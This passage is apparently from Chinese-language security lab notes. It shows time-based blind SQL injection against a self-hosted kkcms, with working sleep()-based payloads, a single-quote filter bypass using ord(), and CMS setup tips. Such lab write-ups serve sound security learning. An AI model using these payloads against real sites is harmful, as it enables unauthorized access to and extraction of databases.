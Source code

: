 - 使用burp抓到对应包，发送至repeater，并在GET头加入**?del=4**发送包，查看是否成功`?del=4 or if(1=1,sleep(2),sleep(0))`。
- 回显200成功后，将`?del=4%20or%20if(1=1,sleep(1),sleep(0))`注入代码写入GET头，并查看右下角，发现有延时，注入成功。
- 需要注意，在写入GET头中的注入语句，需要将空格转换为%20字符，直接输入空格会报错，导致无法识别。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4420.png)

- `?del=4%20or%20if(length(database())=5,sleep(1),sleep(0))`将判断内容替换为，查询数据库名的个数，在输入5的时候，有延迟，及证明，数据库名有五位（可以查看右下角判断时间）。
- `?del=4%20or%20if(left(database(),1)='k',sleep(1),sleep(0))`将判断内容替换为检查当前数据库名称的第一个字符是否为 ‘k’。

发现，回显的数据包，并没有延时，但数据库名为kkcms。

将源码的sql语句打印出来，发现是源码对于**单引号**做了过滤。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4421.png)

- ord() 函数：
- ord() 函数返回字符串的第一个字符的 ASCII 值。
- 在这个语句中，ord(left(database(),1)) 返回当前数据库名称的第一个字符的 ASCII 值。

将`?del=4%20or%20if(ord(left(database(),1))=107,sleep(1),sleep(0))`将条件使用  ord() 函数包裹，并将k值转换为ASCII码（107），即可绕过单引号过滤。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4422.png)

## xhcms—搭建

如果在搭建过程中，遇到报错内容是找不到数据库的话，直接手动新建一个，之后创建成功内容会自己导入。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/xh01.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/xh02.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/xh03.png)

## kkcms—搭建

注意：使用此cms，php版本要在5.6.x，但是7.x.x好像也无法查看首页。

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/kk01.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/kk02.png)

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/kk03.png)


